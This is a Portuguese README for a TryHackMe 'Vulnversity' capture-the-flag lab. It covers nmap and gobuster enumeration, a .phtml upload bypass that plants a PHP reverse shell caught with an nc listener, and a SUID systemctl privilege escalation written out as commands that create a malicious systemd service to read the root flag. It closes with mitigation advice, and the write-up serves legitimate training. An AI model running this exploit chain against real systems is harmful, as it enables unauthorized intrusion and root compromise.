




# TryHackMe · Vulnversity — Walkthrough & Technical Report

> Documentação completa, walkthrough passo a passo e artefatos de exploração da sala **Vulnversity** (TryHackMe).

[](https://tryhackme.com/room/vulnversity)


---

## 📌 Visão Geral

**Vulnversity** é um laboratório de nível fácil que exercita uma cadeia de ataque realista de ponta a ponta:
reconhecimento ativo, enumeração web, obtenção de *foothold* via bypass de validação de upload (RCE) e,
por fim, escalonamento de privilégios local em Linux explorando um binário com bit **SUID** mal configurado.

| Item | Detalhe |
|------|---------|
| **Alvo** | Máquina virtual TryHackMe — Vulnversity |
| **SO** | Ubuntu (Linux) |
| **Autor** | Luís Felipe Nepomuceno de Moraes |
| **Resultado** | Comprometimento total (shell como `www-data` → `root`) |
| **Técnicas** | Port scanning, dir bruteforce, file-upload bypass, reverse shell, SUID privesc |

---

## 🗺️ Cadeia de Ataque (Kill Chain)

```text
Nmap ──► Gobuster ──► /internal/ (upload) ──► bypass .phtml ──► Reverse Shell (www-data)
                                                                      │
                                                                      ▼
                                              SUID em /bin/systemctl ──► root
```

---

## 🛠️ Fase 1 — Reconhecimento (Nmap)

Descoberta de portas e serviços em duas etapas: varredura TCP SYN furtiva com detecção de versões e, em seguida, varredura agressiva para scripts e fingerprint do SO.

```bash
nmap -sS -sV <MACHINE_IP>   # scan furtivo + versões dos serviços
nmap -A <MACHINE_IP>        # scripts, OS detection e fingerprint
```

| Porta | Serviço | Versão |
|-------|---------|--------|
| 21 | FTP | vsftpd 3.0.5 |
| 22 | SSH | OpenSSH 8.2p1 (Ubuntu) |
| 139 / 445 | SMB | Samba smbd 4.6.2 |
| 3128 | HTTP Proxy | Squid 4.10 |
| **3333** | **HTTP** | **Apache httpd 2.4.41 (Ubuntu)** — `http-title: Vuln University` |

> 💡 **6 portas abertas.** A porta **3333** chama atenção por hospedar um servidor web em porta não convencional — alvo prioritário.


<p align="center"><sub>Varredura <code>nmap -sS -sV</code> revelando as 6 portas abertas e as versões dos serviços.</sub></p>

---

## 📂 Fase 2 — Enumeração de Diretórios (Gobuster)

Força bruta de diretórios na aplicação web (porta 3333).

```bash
gobuster dir -u http://<MACHINE_IP>:3333 \
  -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

* **Endpoint crítico descoberto:** `/internal/` — hospeda um formulário de **upload de arquivos**.


<p align="center"><sub>Gobuster enumerando a aplicação na porta 3333 e revelando <code>/internal</code> (301).</sub></p>

---

## 💥 Fase 3 — Comprometimento Web (File Upload Bypass → RCE)

Exploração do formulário de upload para obter execução remota de código.


<p align="center"><sub>Formulário de upload exposto em <code>/internal/</code>.</sub></p>

1. **Fuzzing de extensões (Burp Suite Intruder — ataque *Sniper*):** teste de extensões PHP alternativas a partir de [`scripts/phpext.txt`](scripts/phpext.txt) — `.php`, `.php3`, `.php4`, `.php5`, `.phtml`.

   
   <p align="center"><sub>Burp Intruder (Sniper) marcando a extensão do <code>filename</code> como posição de payload.</sub></p>

2. **Bypass identificado:** o servidor bloqueia `.php`, mas **não filtra `.phtml`**.
3. **Payload:** upload de um reverse shell PHP (`php-reverse-shell.phtml`) com o IP da VPN (`tun0`) e porta de escuta configurados.
4. **Listener:**
   ```bash
   nc -lvnp 1234
   ```
5. **Disparo:** acesso ao arquivo via navegador para executar o payload e abrir a sessão interativa:
   ```
   http://<MACHINE_IP>:3333/internal/uploads/php-reverse-shell.phtml
   ```

➡️ *Foothold* obtido como usuário **`www-data`**.

---

## 🔐 Fase 4 — Escalonamento de Privilégios (SUID)

Enumeração de binários com bit **SUID** ativo (executam com os privilégios do dono — tipicamente `root`).

```bash
find / -perm -u=s -type f 2>/dev/null
```

* **Descoberta:** `/bin/systemctl` com bit SUID — configuração incorreta explorável.
* **Exploração ([GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/)):** criação de um serviço `systemd` malicioso que executa um comando como root (ex.: copiar `/bin/bash` com SUID, ler a flag, ou abrir outro shell).

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/root_flag"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

➡️ Privilégios de **`root`** obtidos. Comprometimento total do alvo.

---

## 📁 Estrutura do Repositório

```text
Vulnversity/
├── README.md              # Este documento
├── docs/
│   ├── report.md          # Relatório técnico detalhado + capturas de tela
│   └── screenshots/        # Registro fotográfico da sessão
└── scripts/
    └── phpext.txt         # Wordlist de extensões para o bypass de upload
```

📄 Relatório técnico completo **com todas as 13 capturas de tela** da sessão: [`docs/report.md`](docs/report.md)

---

## 🎓 Lições Aprendidas

### Ofensivas (atacante)
- **Portas não convencionais importam:** serviços em portas atípicas (3333) costumam esconder as aplicações mais frágeis. Nunca limite o scan às portas padrão.
- **Validação de upload por extensão é frágil:** uma blocklist que esquece variantes (`.phtml`, `.php5`) permite RCE. Fuzzing sistemático de extensões revela a brecha rapidamente.
- **SUID é o primeiro lugar a olhar na privesc Linux:** `find / -perm -u=s -type f` + consulta ao GTFOBins resolve boa parte dos casos de escalonamento local.
- **Documente enquanto executa:** capturar cada etapa (como em `docs/screenshots/`) facilita o relatório e a reprodução.

### Defensivas (mitigações)
- **Upload seguro:** usar **allowlist** de extensões *e* validar o `Content-Type` e os *magic bytes*; renomear arquivos; servir uploads de um diretório sem permissão de execução.
- **Princípio do menor privilégio:** remover o bit SUID de binários que não o exigem (`chmod u-s /bin/systemctl`) e revisar periodicamente a lista de binários SUID.
- **Hardening de superfície:** desativar serviços e portas não utilizados; manter versões atualizadas; isolar o servidor web do restante do sistema.
- **Monitoramento:** alertar sobre criação/alteração de serviços `systemd` e sobre uploads de extensões executáveis.

---

## ⚠️ Aviso Legal

Este material é estritamente **educacional** e foi produzido em ambiente de laboratório autorizado (TryHackMe).
As técnicas aqui descritas só devem ser aplicadas em sistemas sobre os quais você tem permissão explícita para testar.
O uso indevido é de responsabilidade exclusiva do agente.
